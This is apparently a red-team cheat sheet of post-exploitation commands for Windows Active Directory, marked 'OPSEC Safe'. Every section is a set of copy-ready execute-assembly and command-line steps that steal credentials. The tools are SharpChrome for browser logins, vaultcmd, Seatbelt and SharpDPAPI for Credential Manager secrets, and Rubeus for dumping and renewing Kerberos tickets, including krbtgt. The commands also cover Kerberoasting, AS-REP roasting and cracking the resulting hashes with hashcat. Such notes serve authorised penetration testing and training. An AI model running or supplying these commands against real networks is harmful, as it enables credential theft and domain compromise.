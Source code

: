 
#### OPSEC Safe

Browser credentials
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

Windows Credential Manager
```powershell
run vaultcmd /listcreds:"Windows Credentials" /all
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

 Extracting tickets + renewing them
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x6c5b5 /service:krbtgt /nowrap
```

```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFq[...snip...]uQ09N

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap
```
 
 Kerberoasting
```powershell
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/dub-sql-2.dublin.contoso.com:1433 /simple /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:MSSQLSVC /simple /nowrap
```

```powershell
C:\Tools\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
```

AS-REP Roasting
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap
```